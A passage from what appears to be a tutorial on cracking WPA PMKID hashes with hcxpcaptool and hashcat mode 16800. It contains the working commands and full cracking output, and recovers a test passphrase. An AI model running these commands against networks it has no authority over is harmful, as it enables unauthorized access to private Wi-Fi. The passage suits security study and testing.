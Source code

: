 `$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng`

  
3. Run hashcat to crack it.  
  
Basically we can attack this hash as any other hash type. The hash-mode that we need to use is 16800.  
  

Code:

`$ ./hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'`

  
Output:  
  

> Quote:hashcat (v4.2.0) starting...  
>   
> OpenCL Platform #1: NVIDIA Corporation  
> ======================================  
> * Device #1: GeForce GTX 1080, 2028/8112 MB allocatable, 20MCU  
> * Device #2: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
> * Device #3: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
> * Device #4: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU  
>   
> Hashes: 1 digests; 1 unique digests, 1 unique salts  
> Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  
>   
> Applicable optimizers:  
> * Zero-Byte  
> * Single-Hash  
> * Single-Salt  
> * Brute-Force  
> * Slow-Hash-SIMD-LOOP  
>   
> Minimum password length supported by kernel: 8  
> Maximum password length supported by kernel: 63  
>   
> Watchdog: Temperature abort trigger set to 90c  
>   
> 2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a:hashcat!  
>   
> Session..........: hashcat  
> Status...........: Cracked  
> Hash.Type........: WPA-PMKID-PBKDF2  
> Hash.Target......: 2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf...a39f3a  
> Time.Started.....: Thu Jul 26 12:51:38 2018 (41 secs)  
> Time.Estimated...: Thu Jul 26 12:52:19 2018 (0 secs)  
> Guess.Mask.......: ?l?l?l?l?l?lt! [8]  
> Guess.Queue......: 1/1 (100.00%)  
> Speed.Dev.#1.....:   408.9 kH/s (103.86ms) @ Accel:64 Loops:128 Thr:1024 Vec:1  
> Speed.Dev.#2.....:   408.6 kH/s (104.90ms) @ Accel:64 Loops:128 Thr:1024 Vec:1  
> Speed.Dev.#3.....:   412.9 kH/s (102.50ms) @ Accel:64 Loops:128 Thr:1024 Vec:1  
> Speed.Dev.#4.....:   410.9 kH/s (104.66ms) @ Accel:64 Loops:128 Thr:1024 Vec:1  
> Speed.Dev.#*.....:  1641.3 kH/s  
> Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts  
> Progress.........: 66846720/308915776 (21.64%)  
> Rejected.........: 0/66846720 (0.00%)  
> Restore.Point....: 0/11881376 (0.00%)  
> Candidates.#1....: hariert! -> hhzkzet!  
> Candidates.#2....: hdtivst! -> hzxkbnt!  
> Candidates.#3....: gnxpwet! -> gwqivst!  
> Candidates.#4....: gxhcddt! -> grjmrut!  
> HWMon.Dev.#1.....: Temp: 81c Fan: 54% Util: 75% Core:1771MHz Mem:4513MHz Bus:1  
> HWMon.Dev.#2.....: Temp: 81c Fan: 54% Util:100% Core:1607MHz Mem:4513MHz Bus:1  
> HWMon.Dev.#3.....: Temp: 81c Fan: 54% Util: 94% Core:1683MHz Mem:4513MHz Bus:1  